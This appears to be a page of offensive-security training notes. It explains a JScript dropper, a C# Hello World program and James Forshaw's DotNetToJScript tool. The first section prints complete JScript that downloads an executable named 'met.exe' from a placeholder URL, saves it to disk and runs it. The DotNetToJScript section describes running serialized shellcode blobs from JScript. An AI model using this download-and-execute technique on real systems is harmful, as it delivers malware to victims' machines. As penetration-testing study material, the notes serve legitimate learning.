

# Basic Dropper in JScript

- To perform a HTTP GET Request, we can use the MSXML2.XMLHTTP Object which is based on Microsoft XML Core Services.
- We would be using CreateObject method of the Windows Script Host to instantiate the MSXML2.XMLHTTP Object.

JScript Code :

    var url = "<link to exe file>"
    var Object = WScript.CreateObject('MSXML2.XMLHTTP');
    Object.Open('GET', url, false);
    Object.Send();
    if (Object.Status == 200)
    {
        var Stream = WScript.CreateObject('ADODB.Stream');
        Stream.Open();
        Stream.Type = 1;
        Stream.Write(Object.ResponseBody);
        Stream.Position = 0;
        Stream.SaveToFile("met.exe", 2);
        Stream.Close();
    }
    var r = new ActiveXObject("WScript.Shell").Run("met.exe");

Explanation :

1. We first store the link to the exe file in a variable called url
2. Next we create the Object of MSXML2.XMLHTTP
3. We then create a GET Request to the link
4. Next we send the GET request with Object.Send() command.
5. If the Object Status is 200, that means it was a success and the file was found.
6. We then create a Stream to copy the response into it and save it to a file
7. Using the _ActiveXObject_, we execute a shell command were we execute the exe file.

&nbsp;

> Documentation :
>
> - https://docs.microsoft.com/en-us/previous-versions/windows/desktop/ms767625%28v%3dvs.85%29
> - https://www.w3schools.com/asp/ado_ref_stream.asp
> - https://en.wikipedia.org/wiki/ActiveX

&nbsp;

# JScript and C#

Just as we did in the previous topics of Invoking Win32 APIs from C# and integrating it in powershell or VBA Script, we will follow a similar approach here.

A Simple Hello World Program can be found [here](./C%23%20Programs/HelloWorld.cs)

Explanation :

1. We first import the required libraries in C#.
2. We then specify the namespace HelloWorld
3. We then specify the classname followed by the Main function.
4. Using the Console.WriteLine method, we can print the text to console.

Compiled exe file can be found [here](./Compiled%20binaries/HelloWorld.exe)

&nbsp;

> Namespaces in C# are used to organize too many classes so that it can be easy to handle the application. In a simple C# program, we use System.Console where System is the namespace and Console is the class. To access the class of a namespace, we need to use namespacename.classname

> Documentation :
>
> - https://docs.microsoft.com/en-us/dotnet/api/system.console.writeline?view=netframework-4.8

> Visual Studio > Console (.Net Framwork) template > Build > exe file

&nbsp;

# DotNetToJScript

A project created by James Forshaw in 2017 to execute C# assembly from JScript.
Github Project : https://github.com/tyranid/DotNetToJScript

We can download the latest release. The file also has an example compiled dll file which we can use for testing.

The command for compiling the dll to js file is :

Source Code of ExampleAssembly can be found [here](./C%23%20Programs/ExampleAssembly.cs)

Explanation :

1. The first function sets the version of the .Net framwork
2. The second function is empty as we did not set the -d flag in DotNetToJscript
3. The next function base64ToStream converts a base64 shellcode to Data stream.
4. The serialized_obj variable stores the serialized base64 blob
5. The entry_class variable stores the name of the class which we want to execute.
6. We then call the setversion() function and the base64ToStream() function
7. The BinaryFormatter object is instantiated from which we call the deserialize method to deserialize the Serialized blob.
8. We then execute relevant methods using the DynamicInvoke and CreateInstance methods.
9. At last we execute the constructor with the help of CreateInstance.

&nbsp;

# Win32 API calls from C#
